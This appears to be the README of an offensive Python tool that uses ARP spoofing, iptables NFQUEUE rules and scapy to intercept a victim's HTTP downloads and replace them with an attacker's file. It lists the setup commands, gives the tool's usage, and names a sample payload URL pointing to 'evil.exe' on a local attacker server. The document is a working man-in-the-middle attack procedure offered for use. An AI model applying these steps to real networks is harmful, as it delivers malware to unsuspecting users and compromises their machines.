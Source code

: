 ## Important Notes

* Accept Encoding
* Content-Length

## Module Requirements

* [argparse](https://docs.python.org/3/library/argparse.html?highlight=argparse): The argparse module makes it easy to write user-friendly command-line interfaces.
* [NetfilterQueue ](https://pypi.org/project/NetfilterQueue/): NetfilterQueue provides access to packets matched by an iptables rule in Linux. Packets so matched can be accepted, dropped, altered, reordered, or given a mark.
* [scapy](https://scapy.readthedocs.io/en/latest/): Scapy is a Python program that enables the user to send, sniff, dissect and forge network packets. This capability allows construction of tools that can probe, scan or attack networks.

## Output

A continuous output of HTTP requests and responses. The target HTTP File should change according to your payload.
This can be stopped by a keyboard interruption CTRL+C.

* Stop the ARP Spoofer after use.
* Flush iptables after use.
```
iptables --flush
```

## Process

1. Setup the webserver of your payload E.g. ```service apache2 start```
2. Setup iptables.
```
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
3. Start the ARP Spoofer
4. Enable Packet Forwarding of the MITM E.g. ```echo 1 > /proc/sys/net/ipv4/ip_forward```
5. Start the File Interceptor.
5. From the target, open browser and access an HTTP website. E.g. [SpeedBit](http://www.speedbit.com/)
6. Download a file. The file should be replaced with your payload.

## Program Requirements

* Linux-based Operating System (Kali, Parrot or Arch)
* Python 3
* A target machine (Tested in Windows Server)
* A network connection (wired or wireless) for the machines
* iptables setup before using the program
```
iptables -I FORWARD -j NFQUEUE --queue-num 0
iptables -I FORWARD -j NFQUEUE
```

## Usage

```
usage: File Interceptor [-h] -e EXT -p PAYLOAD

Intercepts Payload via MITM.

options:
  -h, --help            show this help message and exit
  -e EXT, --extension EXT
                        Extension of the expected payload (E.g. .exe, .rar, .zip)
  -p PAYLOAD, --payload PAYLOAD
                        Payload file Absolute Path (E.g. http://192.168.1.6/evil.exe
                        https://www.7-zip.org/a/7z2301-x64.exe)
```

## References

* [ChatGPT](https://chat.openai.com/): an AI designed to understand, learn, and help with various tasks and inquiries.
* [Jason Sohl](https://www.jasonsohl.com/netfilterqueue-on-parrotos/): NetfilterQueue on ParrotOS
* [Stack Overflow](https://stackoverflow.com/questions/61098923/typeerror-argument-payload-has-incorrect-type-expected-bytes-got-str-how): TypeError: Argument 'payload' has incorrect type (expected bytes, got str). How can I fix it? Why it works on Python 2 but not using Python 3?
* [Stack Overflow](https://stackoverflow.com/questions/22130342/scapy-attributeerror-on-every-call-module-object-has-no-attribute): Scapy AttributeError on every call: 'module' object has no attribute '*'
